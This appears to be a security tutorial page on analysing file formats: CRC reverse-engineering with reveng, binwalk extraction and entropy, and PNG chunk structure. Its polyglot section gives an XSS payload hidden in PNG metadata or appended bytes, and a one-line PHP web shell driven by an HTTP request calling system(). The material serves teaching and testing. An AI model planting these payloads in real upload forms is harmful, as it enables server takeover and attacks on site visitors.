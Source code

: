 ```yaml
---
description: What to do with a file you don't understand
---
```


# File Formats

## Understanding common file formats

If you want to understand how a file format works, you should look at documentation online about it. Often these formats are not ASCII readable so you'll want to use a hex editor, such as `xxd`, `hexedit` or [hexyl](https://github.com/sharkdp/hexyl).&#x20;

A big collection of file formats made by Ange Albertini is the following (just scroll through until you find your format):

{% embed url="https://github.com/corkami/pics/blob/master/binary/README.md" %}
A big collection of drawings of file formats to understand them quickly
{% endembed %}

### CRCs: Cyclic Redundancy Checks

File formats often use a [Cyclic Redundancy Check (CRC)](https://en.wikipedia.org/wiki/Cyclic_redundancy_check) to validate if the bytes have been tampered with or corrupted slightly. See these as a checksum that combines all bytes into a small extra set of bytes that is different if you change even a single bit. These are not as strong as real hashing algorithms, but only output a few bytes. Preventing collisions is not their purpose, purely detecting accidental changes.

Because there are many different types of CRCs, a site like the following makes it easy to compare your data and output to reverse engineer exactly what algorithm was used. Then you can use this knowledge to create a correct checksum for any arbitrary data:

{% embed url="https://crccalc.com/" %}
Quickly view lots of well-known CRC of different sizes based on your input
{% endembed %}

[CRC `reveng`](https://reveng.sourceforge.io/) is another tool built for calculating the CRC parameters from enough samples, so it does not have to be a well-known algorithm.&#x20;

<details>

<summary>Compilation</summary>

Download and extract the source code, then run `make`. If you run into the following error, do as it says and change the `BMP_BIT` and `BMP_SUB` values inside `config.h`:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
reveng: configuration fault.  Update config.h with these definitions and recompile:
        #define BMP_BIT   64
        #define BMP_SUB   32
<strong>$ make
</strong>gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -DBMPTST -o bmptst bmpbit.c
( ./bmptst &#x26;&#x26; touch bmptst ) || ( rm bmptst bmptst.exe &#x26;&#x26; false )
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c bmpbit.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c cli.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c model.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c poly.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c preset.c
gcc -O3 -Wall -ansi -fomit-frame-pointer -DPRESETS -c reveng.c
...
</code></pre>

Then you can install the tool using `sudo ln -s "$(pwd)"/reveng /usr/bin/reveng`.

</details>

<details>

<summary>Usage</summary>

Given a word length (often 8, 16 or 32), this tool can find the parameters of a CRC algorithmically. You need to provide hex strings that are followed by the CRC. Often these can be recognized by templated data (eg. lots of nulls or similar data) followed by 1, 2 or 4 random bytes which are the CRC. Take the following example:

{% code title="Hexdump" %}
```python
52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8
52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0  REC............./.e.
52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25  REC..............{0%
52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD  REC.................
```
{% endcode %}

It looks like the last 4 bytes of each row are pretty random. To crack the exact algorithm used, we simply provide them to `reveng` as hex strings and the 32-bit length we guessed52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38  REC...............I8

<pre class="language-shell-session" data-overflow="wrap"><code class="lang-shell-session"><strong>$ reveng -w32 -s \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00  D9 D1 49 38" \
</strong><strong>  "52 45 43 00  02 00 00 00  06 00 00 00  07 00 00 00  2F 1E 65 D0" \
</strong><strong>  "52 45 43 00  02 00 00 00  08 00 00 00  09 00 00 00  2E 7B 30 25" \
</strong><strong>  "52 45 43 00  02 00 00 00  0A 00 00 00  0B 00 00 00  D8 B4 1C CD"
</strong>
width=32  poly=0x04c11db7  init=0xffffffff  refin=true  refout=true  xorout=0xffffffff  check=0xcbf43926  residue=0xdebb20e3  name="CRC-32/ISO-HDLC"
</code></pre>

It found all parameters, and the preset name "CRC-32/ISO-HDLC". This is a well-known variant. Next, we can predict the CRC for any sequence of data by specifying a preset:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ reveng -m "CRC-32/ISO-HDLC" -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

This correctly computes the hash for the first string! If the tool did not find a named preset, you can still give it the raw parameters to achieve the same result:

<pre class="language-shell-session"><code class="lang-shell-session">$ reveng -w $WIDTH -p $POLY -i $INIT -x $XOROUT -c $INPUT_DATA
# # See -b, -B, -l, and -L for refin/refout values
<strong>$ reveng -w32 -p 0x04C11DB7 -i 0xFFFFFFFF -l -x 0xFFFFFFFF -c \
</strong><strong>  "52 45 43 00  02 00 00 00  04 00 00 00  05 00 00 00"
</strong>
d9d14938
</code></pre>

</details>

## Binwalk

Sometimes when data tries to be hidden inside another file, it is just pasted right into the host file. Meaning that the bytes of the secret file are just somewhere in the other file. Using [binwalk](https://github.com/ReFirmLabs/binwalk) you can check for known file signatures in a file to see if it embeds something. \
Using the following command you can also recursively extract all of these into a `.extracted` folder:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ binwalk -eM file.bin
</strong>DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             TRX firmware header, little endian, image size: 37883904 bytes, CRC32: 0x95C5DF32, flags: 0x1, version: 1, header size: 28 bytes, loader offset: 0x1C, linux kernel offset: 0x0, rootfs offset: 0x0
28            0x1C            uImage header, header size: 64 bytes, header CRC: 0x780C2742, created: 2018-10-10 02:12:20, image size: 2150281 bytes, Data Address: 0x8000, Entry Point: 0x8000, data CRC: 0xA097CFEA, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: none, image name: "DD-WRT"
92            0x5C            Linux kernel ARM boot executable zImage (little-endian)
2460          0x99C           device tree image (dtb)
23432         0x5B88          xz compressed data
23776         0x5CE0          xz compressed data
2117484       0x204F6C        device tree image (dtb)
3145756       0x30001C        UBI erase count header, version: 1, EC: 0x0, VID header offset: 0x800, data offset: 0x1000

<strong>$ binwalk --dd='.*' file.bin  # Another way to extract all file signatures
</strong></code></pre>

{% hint style="warning" %}
A common false positive with PNGs is `Zlib compressed data`. This is because PNG uses Zlib for compression in its own file format, so it is recognized by binwalk. But very often this compressed data just covers the entire file
{% endhint %}

You can also use binwalk to understand an unknown file better, by looking at the **entropy** for example. Entropy is how random a certain sequence of bytes is. Simple ASCII text is pretty predictable and stays within about the same range, so the entropy would be low. But for completely random/encrypted bytes the entropy should be really high, close to 1. You can get a graph of the entropy of the file using the `-E` flag:

```shell-session
$ binwalk -E file.bin
```

<figure><img src="../.gitbook/assets/image (42).png" alt=""><figcaption><p>An example of a firmware image showing various amounts of entropy (<a href="https://allabouttesting.org/short-tutorial-firmware-analysis-tool-binwalk/">source</a>)</p></figcaption></figure>

This can give a good idea about what parts of a file you could look at.&#x20;

## PNG

Image files like PNG can have a lot of hidden info. It's a relatively complex file format with a lot of room for secrets.&#x20;

A quick check you can do to see if it is a completely valid PNG file is using [pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html):

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ pngcheck -h
</strong>Test PNG, JNG or MNG image files for corruption, and print size/type info.

Usage:  pngcheck [-7cfpqtv] file.{png|jng|mng} [file2.{png|jng|mng} [...]]
   or:  ... | pngcheck [-7cfpqstvx]
   or:  pngcheck [-7cfpqstvx] file-containing-PNGs...

Options:
   -7  print contents of tEXt chunks, escape chars >=128 (for 7-bit terminals)
   -c  colorize output (for ANSI terminals)
   -f  force continuation even after major errors
   -p  print contents of PLTE, tRNS, hIST, sPLT and PPLT (can be used with -q)
   -q  test quietly (output only errors)
   -s  search for PNGs within another file
   -t  print contents of tEXt chunks (can be used with -q)
   -v  test verbosely (print most chunk data)
   -x  search for PNGs within another file and extract them when found

<strong>$ pngcheck image.png
</strong>OK: image.png (1920x1080, 32-bit RGB+alpha, non-interlaced, 96.6%).
</code></pre>

PNG files consist of **chunks** of bytes that tell something about the image. The most common one is `IDAT` which contains the pixel data of the image. An image always ends with `IEND` and 4 checksum bytes (every chunk has the checksum).&#x20;

You might see custom chunks being used to embed data, or data appended to the end, after `IEND`.&#x20;

### Embed Raw Data (Polyglots)

You might find some applications where you are allowed to upload files and find that you can either give them a `.php` extension to create a web shell or make the `Content-Type: text/html` to render tags inside the raw bytes for [cross-site-scripting-xss](../web/client-side/cross-site-scripting-xss/ "mention"). In either case, this application might validate or even transform your image in a way that does not preserve all the original bytes, breaking your payload.&#x20;

While you might be able to include **metadata** with tools like `exiftool`, these might be stripped by the server upon saving your file:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ exiftool -Comment='&#x3C;svg/onload=alert()>' example.png
</strong>    1 image files updated
<strong>$ hd example.png
</strong>00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
...
00000080  e0 b6 b6 f4 d1 0d 53 22  0d 14 00 00 00 1c 74 45  |......S"......tE|
<strong>00000090  58 74 43 6f 6d 6d 65 6e  74 00 3c 73 76 67 2f 6f  |XtComment.&#x3C;svg/o|
</strong><strong>000000a0  6e 6c 6f 61 64 3d 61 6c  65 72 74 28 29 3e ad 30  |nload=alert()>.0|
</strong>000000b0  14 57 00 00 08 7d 49 44  41 54 78 5e ec ce 31 0d  |.W...}IDATx^..1.|
</code></pre>

Another trick is simply appending data to the end of the file. This would not pass as a valid PNG anymore, but could survive on the server:

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ echo '&#x3C;svg/onload=alert()>' >> example.png
</strong>
<strong>$ hd example.png
</strong>...
000009d0  5a b3 07 54 ac 7b 51 fb  78 a7 ea 00 00 00 00 49  |Z..T.{Q.x......I|
<strong>000009e0  45 4e 44 ae 42 60 82 3c  73 76 67 2f 6f 6e 6c 6f  |END.B`.&#x3C;svg/onlo|
</strong><strong>000009f0  61 64 3d 61 6c 65 72 74  28 29 3e 0a              |ad=alert()>.|
</strong>000009fc
</code></pre>

Lastly, there is a technique more resistant to transformation by using the **IDAT chunks**. These normally include compressed DEFLATE data representing the pixels themselves, but this process can be reversed to obtain a string of pixels that compress into a payload like:

```php
<?=$_GET[0]($_POST[1]);?>
```

If the payload above is executed, you can provide a function you want to call like `system()` as the query parameter `0`, and an argument you want to give the function in a `1` body parameter.&#x20;

<pre class="language-http"><code class="lang-http"><strong>POST /shell.php?0=system HTTP/1.1
</strong>...
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

<strong>1=id
</strong></code></pre>

The process of creating these and a few example payloads are described in the following post, which also shows an XSS payload with the same idea:

{% embed url="https://web.archive.org/web/20250713054441/https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/" %}

## Archives (ZIP, TAR, 7z, etc.)

{% content-ref url="archives.md" %}
[archives.md](archives.md)
{% endcontent-ref %}
